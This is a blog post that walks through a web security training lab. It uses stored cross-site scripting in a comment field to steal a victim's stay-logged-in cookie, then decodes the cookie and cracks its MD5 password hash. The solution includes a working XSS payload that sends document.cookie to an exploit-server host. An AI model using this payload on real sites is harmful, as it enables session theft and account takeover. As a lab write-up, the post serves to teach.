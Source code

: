 ```yaml
---
layout: post
title:  "Offline password cracking"
date:   2024-10-23 10:20:54 +0530
---
```


## Objective 

This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's stay-logged-in cookie and use it to crack his password. Then, log in as carlos and delete his account from the "My account" page.

- `Your credentials:` wiener:peter
- `Victim's username:` carlos

## Solution 

Going through the lab objective, we know that there is XSS vulnerability exists and what we did his.. filled up all the details in post and in the comment field, instead of adding the some random text but we entered the following payload `<img src=x onerror=this.src='https://exploit-0a5500ba03e5afe48033843a012600ff.exploit-server.net/?c='+document.cookie>` and posted the comment 

Checking the Access log through the exploit server, we found the following cookies value 

![]({{ site.baseurl }}/assets/images/auth/auth-43.png)

Now let's copy the `stay-logged-in` cookie value and decoded it in a base64 format and found that this cookie belongs to `carlos` user just like the previous lab and suprisingly the password is also in MD5 hash format 

![]({{ site.baseurl }}/assets/images/auth/auth-44.png)

Decrypted MD5 hash and password will be `onceuponatime` 

![]({{ site.baseurl }}/assets/images/auth/auth-45.png)

Now login into `carlos` user with password as `onceuponatime` that solves the lab 

![]({{ site.baseurl }}/assets/images/auth/auth-46.png)